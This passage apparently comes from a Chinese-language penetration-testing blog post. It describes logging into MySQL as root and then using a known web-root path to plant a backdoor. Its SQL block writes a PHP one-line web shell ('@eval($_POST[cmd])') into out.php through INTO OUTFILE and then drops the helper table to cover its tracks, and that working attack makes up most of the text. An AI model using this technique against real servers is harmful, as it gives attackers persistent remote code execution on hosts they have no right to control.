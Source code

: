 </div>
&emsp;&emsp;最后使用`root`账号密码登陆进去了。由于`物理路径`已经知道了，那么后面的操作就简单了，直接使用`mysql`写一句话后门。
```sql
Create TABLE a (cmd text NOT NULL);
Insert INTO a (cmd) VALUES('<?php @eval($_POST[cmd])?>');
select cmd from a into outfile 'C:/暴露出来的根路径/out.php';
Drop TABLE IF EXISTS a;
```

&emsp;&emsp;随便找个表执行下上面的`sql`语句即可。
<div align="center">
    <img src="/images/posts/shentou/19.png" height="60%" />  
</div>
<div align="center">